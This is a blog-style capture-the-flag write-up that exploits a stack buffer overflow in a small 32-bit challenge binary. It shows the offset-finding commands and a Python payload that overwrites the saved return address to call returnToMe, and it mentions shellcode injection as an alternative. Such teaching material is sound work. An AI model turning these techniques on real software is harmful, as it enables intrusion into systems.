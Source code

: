 buf0 - A Buffer Overflow Challenge
==================================
date: 06/Jan/2014
summary: This is a buffer overflow challenge I found online. Although some people might find this to be a pretty easy exploit target, I thought of posting a writeup since it will still be someone's starting point into the jouney of exploitation.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf0](/files/buf0.bin). Let's see
what `file` command has to tell us about this challenge file:

```bash
$ file buf0.bin
buf0.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3a0cbf6e6af7d4a5d1294f2ce18e80ad3e778d48, not stripped
```

So, this is an x86 ELF binary with symbols included. Let's run `strings`
as well over this file:

```bash
$ strings buf0.bin
/lib/ld-linux.so.2
j,O)
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

This is interesting. The binary is using `gets` syscall which is
commonly exploited against buffer overflow vulnerabilities. There is a
`W00T!` string as well which indicates that we need to exploit the
binary and get this string printed. Before we execute this file, let's
do some static analysis on it using IDA:

![image](/static/files/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting
function called `returnToMe` at location 0x08048404. Let's follow this
function and see what is it doing:

![image](/static/files/ida-returntome.png)

Like I mentioned earlier, this is where the `W00T!` string is printed
and as per the assumption, we need to leverage the overflow in a way
that this function is called. Let's now run the binary and see how it
behaves:

```bash
$ ./buf0.bin
AAAAAAAAAAA
$
$ python -c 'print "A"*10' | ./buf0.bin
$ python -c 'print "A"*30' | ./buf0.bin
$ python -c 'print "A"*50' | ./buf0.bin
$ python -c 'print "A"*60' | ./buf0.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
$ python -c 'print "A"*53' | ./buf0.bin
$ python -c 'print "A"*54' | ./buf0.bin
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
```

So, the binary accepts input through the `gets` syscall and is as such
vulnerable to a classic stack-based buffer overflow. We do some
trial-and-error to figure out the size of the buffer and it turns out to
be 54B after which any extra byte would corrupt the stack metadata
resulting in a `Segmentation fault (core dumped)` error. So, these 54B
comprise of the following stack variables:

```bash
50B (buf) + 4B (saved EBP)
```

The next 4B following saved EBP is the saved return address, EIP, and
this is what we need to overwrite to achieve successful exploitation.
For this challenge, the author wants us to overwrite EIP with the
address of the `returnToMe` function but there are others ways of
exploiting this as well:

1.  Injecting a 54B or less shellcode in the buffer and overwriting EIP
    with the start of the shellcode/NOP sled
2.  Injecting a bigger shellcode through an environment variable and
    overwriting EIP with it's address

But to keep things simple, let's just focus on how to complete the
challenge by satisfying author's criteria. To know how to exploit such
challenges using above steps please read my earlier post [Gera's Warming
Up on Stack \#1 - Solutions](/2012/8/27/geras-wuos-stack1-solutions/)
and it's subsequent parts.

From the IDA screenshot above it is already known that the `returnToMe`
function is at location 0x08048404. Let's exploit the binary with a
random payload of 54B concatenated with this new return address:

```bash
$ python -c 'print "A"*54 + "\x04\x84\x04\x08"' | ./buf0.bin
W00T!
```

Awesome! We get the required string printed, thus completing this
challenge. Stay tuned for a post on a similar challenge.
